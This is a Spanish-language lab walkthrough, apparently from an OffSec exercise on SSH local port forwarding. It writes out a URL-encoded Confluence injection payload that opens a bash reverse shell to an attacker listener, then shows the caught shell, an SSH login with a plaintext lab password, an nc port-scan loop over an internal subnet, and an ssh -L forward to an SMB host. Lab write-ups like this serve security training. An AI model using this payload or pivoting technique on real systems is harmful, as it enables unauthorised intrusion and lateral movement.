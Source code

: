 # Walk: Port Redirection and SSH Tunneling - SSH Local Port Forwarding - VM Group 1

## Fecha: 19/03/2025
## Host: {HOST}
## IP: {IP}
## Objetivo
Start VM Group 1 and follow the steps in this exercise. What's the flag in **Provisioning.ps1**?
## Herramientas
1. tool - 1
2. tool - 2
## Procedimiento y comandos
> Con las credenciales descubiertas en el laboratorio anterior hacemos un login en **PGDATABASE01** desde **CONFLUENCE01**
#### Paso 1: Nos conectamos a CONFLUENCE01
1. Ejecutamos el receptor nc: `nc -lnvp 4444`
2.  Ejecutamos la _poc_ anterior con las credenciales correspondientes
```
curl -v http://192.168.216.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.200/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
3. Obtenemos acceso a **CONFLUENCE01**
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.1-SSH-Local-PortForwarding]
└─# nc -lnvp 4444                                
listening on [any] 4444 ...
connect to [192.168.45.200] from (UNKNOWN) [192.168.216.63] 49922
bash: cannot set terminal process group (2198): Inappropriate ioctl for device
bash: no job control in this shell
bash: /root/.bashrc: Permission denied
confluence@confluence01:/opt/atlassian/confluence/bin$ 
```
#### Paso 2:  Iniciamos sesion como _database_admin_ 
> Ya no podemos usar _**Socat**_ para crear un redireccionamiento de puerto que nos permita acceder a **PGDATABASE01** por SSH desde nuestra máquina Kali. Sin embargo, en este caso, podemos acceder directamente por SSH desde **CONFLUENCE01** a **PGDATABASE01**
1. Accedamos por SSH a PGDATABASE01 para comenzar la enumeración
- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `ssh database_admin@10.4.216.215`
- `database_admin@10.4.216.215's password: sqlpass123`
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'   
$ ssh database_admin@10.4.216.215
ssh database_admin@10.4.216.215
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '10.4.216.215 (10.4.216.215)' can't be established.
ECDSA key fingerprint is SHA256:GMUxFQSTWYtQRwUc9UvG2+8toeDPtRv3sjPyMfmrOH4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
database_admin@10.4.216.215's password: sqlpass123

Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 20 Mar 2025 02:44:28 AM UTC

  System load:  0.0               Processes:               233
  Usage of /:   80.5% of 6.79GB   Users logged in:         0
  Memory usage: 15%               IPv4 address for ens192: 10.4.216.215
  Swap usage:   0%                IPv4 address for ens224: 172.16.216.254


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Feb 16 21:49:42 2023 from 10.4.50.63
database_admin@pgdatabase01:~$
```
#### Paso 3: Enumeramos desde _database_admin_ 
1. Ejecutaremos **_"ip addr"_** para consultar las interfaces de red disponibles
```
database_admin@pgdatabase01:~$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:86:4f:09 brd ff:ff:ff:ff:ff:ff
    inet 10.4.216.215/24 brd 10.4.216.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:86:db:7b brd ff:ff:ff:ff:ff:ff
    inet 172.16.216.254/24 brd 172.16.216.255 scope global ens224
       valid_lft forever preferred_lft forever
database_admin@pgdatabase01:~$ 
```
-  inet 10.4.216.215/24 brd 10.4.216.255 scope global ens192
- inet 172.16.216.254/24 brd 172.16.216.255 scope global ens224
2. Necesitamos ver que subrees ya estan en la tabla de enrutamiento:
```
database_admin@pgdatabase01:~$ ip route
ip route
default via 10.4.216.254 dev ens192 proto static 
10.4.216.0/24 dev ens192 proto kernel scope link src 10.4.216.215 
172.16.216.0/24 dev ens224 proto kernel scope link src 172.16.216.254 
database_admin@pgdatabase01:~$ 
```
> Descubrimos que PGDATABASE01 está conectado a otra subred, esta vez en el rango **172.16.216.0/24**
3. Escribamos un bucle **for** en Bash para buscar hosts con el puerto **445**
- `for i in $(seq 1 254); do nc -zv -w 1 172.16.216.$i 445; done`

```
...
nc: connect to 172.16.216.214 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.215 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.216 port 445 (tcp) timed out: Operation now in progress
Connection to 172.16.216.217 445 port [tcp/microsoft-ds] succeeded!
nc: connect to 172.16.216.218 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.219 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.220 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.221 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.222 port 445 (tcp) timed out: Operation now in progress
nc: connect to 172.16.216.223 port 445 (tcp) timed out: Operation now in progress
...
```
Despues de probar en todo el rango de red podemos ver que el unico host que nos dio una respuesta aunque sea momentanea fue: **172.16.216.217**

#### Paso 4: SSH local port forwarding
>Finalizamos nuestra conexion con **PGDATABASE01**
1. Desde **CONFLUENCE01**  debemos configurar ssh para el reenvio de puertos local
- `ssh -N -L 0.0.0.0:4455:172.16.216.217:445 database_admin@10.4.216.215 `

